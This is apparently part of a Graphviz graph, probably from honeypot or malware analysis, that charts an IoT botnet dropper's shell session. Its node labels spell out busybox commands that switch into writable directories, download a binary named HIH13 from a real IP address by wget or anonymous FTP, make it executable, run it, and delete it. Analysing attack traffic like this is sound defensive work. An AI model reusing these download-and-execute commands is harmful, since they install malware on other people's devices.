848 [label="rm -rf HIH13 "];
848 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 860 [label="||,"];
860 [label="/bin/busybox wget http://185.145.129.246/HIH13 "];
860 -> 862 [label=";,"];
862 [label="/bin/busybox chmod +x HIH13 "];
862 -> 864 [label=";,"];
864 [label="./HIH13 "];
864 -> 881 [label=";,"];
881 [label="/bin/busybox rm -rf HIH13 "];
881 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 878 [label="||,"];
878 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.129.246 HIH13 HIH13 "];
878 -> 880 [label=";,"];
880 [label="/bin/busybox chmod +x HIH13 ./HIH13 "];
880 -> 881 [label=";,"];
}
